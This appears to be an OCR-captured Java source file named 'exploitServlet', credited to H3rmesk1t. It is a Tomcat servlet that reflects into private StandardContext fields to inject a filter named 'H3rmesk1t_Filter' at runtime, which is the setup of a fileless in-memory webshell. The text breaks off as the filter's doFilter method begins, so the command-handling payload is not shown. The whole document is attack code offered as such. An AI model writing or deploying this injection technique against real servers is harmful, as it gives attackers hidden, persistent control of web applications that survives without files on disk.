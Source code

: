 ```java
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import org.apache.catalina.core.ApplicationFilterConfig;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;
import java.util.Scanner;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/8/15 9:55 pm
 */

@WebServlet("/exploitServlet")
public class exploitServlet extends HttpServlet {

    protected void doGet(HttpServletRequest request, HttpServletResponse response) {

        this.doPost(request, response);
    }

    protected void doPost(HttpServletRequest request, HttpServletResponse response) {

        Field Configs = null;
        Map filterConfigs;
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field appContext = servletContext.getClass().getDeclaredField("context");
            appContext.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);

            Field stdContext = applicationContext.getClass().getDeclaredField("context");
            stdContext.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);

            String FilterName = "H3rmesk1t_Filter";
            Configs = standardContext.getClass().getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            filterConfigs = (Map) Configs.get(standardContext);

            if (filterConfigs.get(FilterName) == null) {
                Filter filter = new Filter() {

                    @Override
                    public void init(FilterConfig filterConfig) {

                    }

                    @Override
                    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
```